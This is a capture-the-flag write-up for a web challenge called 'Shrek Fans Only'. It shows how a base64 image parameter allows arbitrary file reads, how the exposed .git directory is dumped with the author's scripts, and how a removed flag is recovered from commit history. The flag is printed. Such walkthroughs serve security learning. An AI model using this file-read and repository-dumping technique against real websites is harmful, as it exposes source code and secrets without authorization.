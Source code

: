 # Write-up: Shrek Fans Only

## Description

### My Story
A simple web page with a single image. too empty!!

But the url of image is somehow interesting (`http://3.91.17.218/getimg.php?img=aW1nMS5qcGc%3D`).
The `img` parameter value is like Base64 encoded value and it is. I tested by Javascript:
```
atob(decodeURIComponent('aW1nMS5qcGc%3D'))
"img1.jpg"
```

I wrote this simple Bash script, [getimg.sh](./getimg.sh), and tried different pathes and finally found `.git` directory files.
```
./getimg.sh ".git/HEAD"
```

OK! I should try to get `.git` directory data and find the flag in the past commits of repository.

### Exploit Time
I had to write a script that would get all parts of `.git` directory, but I didn't know the structure of this directory. I searched and found [this repository](https://github.com/arthaud/git-dumper) and read some parts of [git-dumper.py](https://github.com/arthaud/git-dumper/blob/master/git-dumper.py) and did:
* mkdir git (I made this diretory to be the parent of `.git` directory)
* I wrote [my-dumper.py](./my-dumper.py) to get important files of `.git` directory.

I have these files now:
```
.git/
├── COMMIT_EDITMSG
├── config
├── description
├── HEAD
├── hooks
│   ├── applypatch-msg.sample
│   ├── commit-msg.sample
│   ├── post-commit.sample
│   ├── post-receive.sample
│   ├── post-update.sample
│   ├── pre-applypatch.sample
│   ├── pre-commit.sample
│   ├── prepare-commit-msg.sample
│   ├── pre-push.sample
│   ├── pre-rebase.sample
│   ├── pre-receive.sample
│   └── update.sample
├── index
├── info
│   └── exclude
├── logs
│   ├── HEAD
│   └── refs
│       ├── heads
│       │   └── master
│       └── remotes
│           └── origin
│               └── master
├── objects
│   └── info
└── refs
    ├── heads
    │   └── master
    └── remotes
        └── origin
            └── master
```
There should be some object files under `objects` direcotry that I don't know the names. So I tried to find out the SHA1s all over `.git` directory and used [getobject.sh script](./getobject.sh) to download and put them in the correct path.
```
$ cat .git/logs/HEAD
0000000000000000000000000000000000000000 759be945739b04b63a09e7c02d51567501ead033 Shrek <shrek@shrek.com> 1583366532 +0000	commit (initial): initial commit
759be945739b04b63a09e7c02d51567501ead033 976b625888ae0d9ee9543f025254f71e10b7bcf8 Shrek <shrek@shrek.com> 1583366704 +0000	commit: remove flag
976b625888ae0d9ee9543f025254f71e10b7bcf8 d421c6aa97e8b8a60d330336ec1e829c8ffd7199 Shrek <shrek@shrek.com> 1583367714 +0000	commit: added more stuff
d421c6aa97e8b8a60d330336ec1e829c8ffd7199 759be945739b04b63a09e7c02d51567501ead033 Shrek <shrek@shrek.com> 1583367723 +0000	checkout: moving from master to 759be945739b04b63a09e7c02d51567501ead033
759be945739b04b63a09e7c02d51567501ead033 d421c6aa97e8b8a60d330336ec1e829c8ffd7199 Shrek <shrek@shrek.com> 1583367740 +0000	checkout: moving from 759be945739b04b63a09e7c02d51567501ead033 to master

$ git checkout .
error: unable to read sha1 file of getimg.php (c9566ff84d2e1ae3339bc1e6303d6d3340b5789f)
error: unable to read sha1 file of img1.jpg (0e8104f51db8f9ee08f0966656a3c2307e6cde5c)
error: unable to read sha1 file of index.php (5ab449745b9c25fb0b56c5fbab8d0c986541233e)
Updated 3 paths from the index

$ git fsck --full
broken link from  commit 976b625888ae0d9ee9543f025254f71e10b7bcf8
              to    tree 2f74a95c3a29776d84041f360e64d6e6b2edc7bd
broken link from  commit 759be945739b04b63a09e7c02d51567501ead033
              to    tree aeeea4cfa5afa4dcb70e1d6109790377e7bcec4d
broken link from  commit d421c6aa97e8b8a60d330336ec1e829c8ffd7199
              to    tree e5f40adbab45316c0307505386c3e8f113279b95
missing tree e5f40adbab45316c0307505386c3e8f113279b95
missing tree aeeea4cfa5afa4dcb70e1d6109790377e7bcec4d
missing tree 2f74a95c3a29776d84041f360e64d6e6b2edc7bd
```

I use `git cherry-pick` command to get pre-'remove flag' files.
```
$ git reflog
d421c6a (HEAD -> master, origin/master) HEAD@{0}: checkout: moving from 759be945739b04b63a09e7c02d51567501ead033 to master
759be94 HEAD@{1}: checkout: moving from master to 759be945739b04b63a09e7c02d51567501ead033
d421c6a (HEAD -> master, origin/master) HEAD@{2}: commit: added more stuff
976b625 HEAD@{3}: commit: remove flag
759be94 HEAD@{4}: commit (initial): initial commit

$ git cherry-pick 759be94
```

and after a conflict I saw `index.php` file.
```
$ cat index.php
<!DOCTYPE HTML>
<html>
<head>
<title>Shrek Fanclub</title>
</head>
<body>
<h1>What are you doing in my swamp?</h1>
<img src="imgproxy.php?img=img1.jpg">
<<<<<<< HEAD
<div>There used to be something here but Donkey won't leave me alone<div>
=======
<div>utflag{honey_i_shrunk_the_kids_HxSvO3jgkj}</div>
>>>>>>> 759be94... initial commit
</body>
</html>
```
:sunglasses: You Can See The Conflict!

### Flag
`utflag{honey_i_shrunk_the_kids_HxSvO3jgkj}`
